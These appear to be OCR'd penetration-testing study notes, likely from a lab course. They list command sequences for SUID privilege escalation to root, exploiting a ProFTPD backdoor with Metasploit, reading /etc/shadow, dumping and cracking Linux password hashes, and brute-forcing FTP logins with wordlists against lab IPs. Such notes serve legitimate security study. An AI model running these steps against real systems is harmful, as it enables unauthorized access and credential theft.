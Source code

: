                 **SUID**
                
                - `pwd`
                - `la -al`
                - identify that welcome file have s binaries specifies
                - `find welcome`
                - `strings welcome`
                - `rm greetings cp /bin/bash greetings ./welcome`
                - `cd /root`
                - `cat flag`
            - Linux Credentials Dumping
                
                - `nmap -sV 192.75.64.3`
                - `service postgresql start && msfconsole -q`
                - `setg RHOSTS 192.75.64.3 search proftpd use exploit/unix/ftp/proftpd_133c_backdoor run`
                - `/bin/bash -i`
                - Upgrade the sessions to a `meterpreter` session
                - `sessions -u 1`
                - `sessions 2`
                - `cat /etc/shadow`
                - Gather Linux Password hashes with `Metasploit`
                - `search hashdump use post/linux/gather/hashdump set SESSION 2 run`
                - `search crack use auxiliary/analyze/crack_linux set SHA512 true run`
    - Network Based Attacks
        
        Tshark
        
        Filtering Basics HTTP
        
        ARP poisoning
        
        Wifi Traffic Analyses
        
    - MSF
        
        - Enumeration
            
            - FTP
                
                File Transfer Protocol -21
                
                `nmap -sV 10.10.10.10`
                
                `service postgresql start && msfconsole`
                
                `workspace -a FTP_ENUM`
                
                1. `use auxiliary/scanner/portscan/tcp`
                    
                2. `use auxiliary/scanner/ftp/ftp_login`
                    
                    `set RHOSTS 10.10.10.10`
                    
                    `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
                    
                    `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
                    
                    `run`
                    
                3. `use auxiliary/scanner/ftp/ftp_version`
                    